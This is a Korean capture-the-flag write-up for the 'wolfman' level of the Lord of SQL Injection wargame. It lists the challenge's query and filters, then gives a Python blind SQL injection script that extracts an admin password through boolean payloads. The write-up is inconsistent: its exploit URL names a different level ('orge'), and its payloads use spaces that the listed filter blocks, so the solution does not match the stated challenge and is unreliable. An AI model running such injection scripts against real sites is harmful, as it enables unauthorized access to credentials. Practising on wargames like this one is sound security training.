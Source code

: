 ```yaml
---
title: "[LOS] wolfman"
date: 2025-03-26 00:00:00
categories: [Wargame, Lord of SQL Injection]
tags: [webhacking, sqli]
published: True
---
```


# Query

```sql
select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'
```

<br>

# Protection

## preg_match

- `prob` 문자열
- `_`
- `.`
- `()`
- ` ` (white space)

<br>

## addslashes()

```php
$_GET[pw] = addslashes($_GET[pw]);
```

<br>

# Analysis

- [orc](https://1unaram.github.io/posts/los-orc/) 문제와 같이 blind sql injection이 가능
- `or` 대신 `||` 연산자를 사용하고, `and` 대신 `&&`를 사용해야하나 `&`를 query string으로 인식하기에 인코딩하여 `%26`으로 사용

<br>

# Exploit code

```python
import requests

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
cookie = '39je4ges6g212tfsms39bnhqk5'

# Get the length of the password
length = 1
while True:
    payload = f"?pw=' || id='admin' %26%26 length(pw)={length} %23 "

    res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

    if '<h2>Hello admin</h2>' in res.text:
        break

    length += 1

print(f'*** Found length: {length} ***')

# Get the password by binary search
password = ''
for i in range(1, length + 1):

    low = ord('0')
    high = ord('z')
    while low <= high:
        mid = (low + high) // 2
        payload = f"?pw=' || id='admin' %26%26 ascii(substring(pw,{i},1))<={mid} %23 "
        res = requests.get(url=f'{url}{payload}', cookies={'PHPSESSID': cookie})

        if '<h2>Hello admin</h2>' in res.text:
            high = mid - 1
        else:
            low = mid + 1
    password += chr(low)
    print(f'Current password: {password}')

print(f'*** Found Password: {password} ***')
```
